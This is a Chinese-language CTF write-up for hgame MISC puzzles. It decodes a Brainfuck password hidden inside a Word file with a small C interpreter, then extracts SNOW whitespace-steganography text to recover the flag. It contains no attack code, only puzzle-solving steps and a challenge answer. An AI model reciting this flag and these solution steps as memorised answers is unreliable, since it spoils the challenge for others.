word相关的MISC之前从来没碰到过，但知道word本质是一个压缩文件

以压缩包的方式打开`first.doc`，在`word`目录下看到一个`password.html`的文件

```html
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<password>+++++ +++[- >++++ ++++< ]>+++ +.<++ +[->+ ++<]> ++.<+ ++[-> +++<] >+.<+ ++[-> ---<] >-.++ ++++. <+++[ ->--- <]>-. +++.+ .++++ ++++. <+++[ ->--- <]>-- ----. +.--- --..+ .++++ +++++ .<+++ [->-- -<]>- ----- .<</password>
```

搜索了很久后发现这是个BrainFuck，网上找解释器，直接一把梭

```c
#include <stdio.h>
char *program;
char paper[1024];
int  ptr=512,stack[1024],sp=0;
void run()
{
    int size=0,pc=0;
    for(;program[size]!='\0';++size);
    for(;pc<size;++pc)
    {
        if(!sp && program[pc]==']'){printf("sp is zero.\n");break;}
        switch(program[pc])
        {
            case '+':++paper[ptr];break;
            case '-':--paper[ptr];break;
            case '[':stack[sp]=pc;++sp;break;
            case ']':pc=paper[ptr]?stack[sp-1]:pc;sp-=(!paper[ptr]);break;
            case '>':++ptr;break;
            case '<':--ptr;break;
            case ',':scanf("%c",&paper[ptr]);break;
            case '.':printf("%c",paper[ptr]);break;
        }
        if(ptr>=1024 || ptr<0){printf("paper out of range.\n");break;}
        if(sp>=1024){printf("sp out of range.\n");break;}
    }
    printf("\n");
    return;
}
int main()
{
    //scanf("%s",program);
    program="+++++ +++[- >++++ ++++< ]>+++ +.<++ +[->+ ++<]> ++.<+ ++[-> +++<] >+.<+ ++[-> ---<] >-.++ ++++. <+++[ ->--- <]>-. +++.+ .++++ ++++. <+++[ ->--- <]>-- ----. +.--- --..+ .++++ +++++ .<+++ [->-- -<]>- ----- .";
    int i=0;
    for(;i<1024;++i)paper[i]='\0';
    run();
    return 0;
}
```

得到原文`DOYOUKNOWHIDDEN?`解密第二个word`maimai.doc`，除了一张图之外没啥内容

对着图先笑一会

先不考虑jpg隐写那堆考点，看下这个word本身的内容

标准流程`Ctrl+A Ctrl+D`开启段落符号、换行符和隐藏文字，发现了一串Tab和空格组成的东西


开头认为是莫尔斯电码，后来搜了一大堆尝试了培根密码，猪圈密码都乱码，直接stuck

经提示，发现是`snow`加密，太怪了，直接复制密文到十六进制编辑器，保存为`snow2.txt`下解密程序，运行`.\snow -C snow2.txt`

得到flag`hgame{Cha11en9e_Whit3_P4ND0R4_P4R4D0XXX}`

## 总结

基础还要提升，同届师傅们好肝

感谢学长们的帮助和指导

不要拖到最后再写wp


